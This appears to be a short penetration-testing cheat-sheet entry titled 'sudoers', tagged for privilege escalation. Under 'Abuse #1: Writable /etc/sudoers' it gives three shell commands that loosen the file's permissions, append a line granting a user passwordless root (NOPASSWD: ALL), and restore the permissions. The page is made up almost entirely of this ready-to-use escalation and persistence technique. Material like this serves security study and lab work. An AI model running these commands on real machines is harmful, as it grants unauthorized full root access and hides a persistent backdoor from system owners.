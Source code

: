 ```yaml
---
title: "sudoers"
date: 2024-7-3
tags: ["Sudoers", "Sudo", "Privilege Escalation", "/etc/sudoers"]
---
```


#### Abuse #1: Writable /etc/sudoers

```console
chmod 600 /etc/sudoers
```

```console
echo '<USER>   ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

```console
chmod 440 /etc/sudoers
```
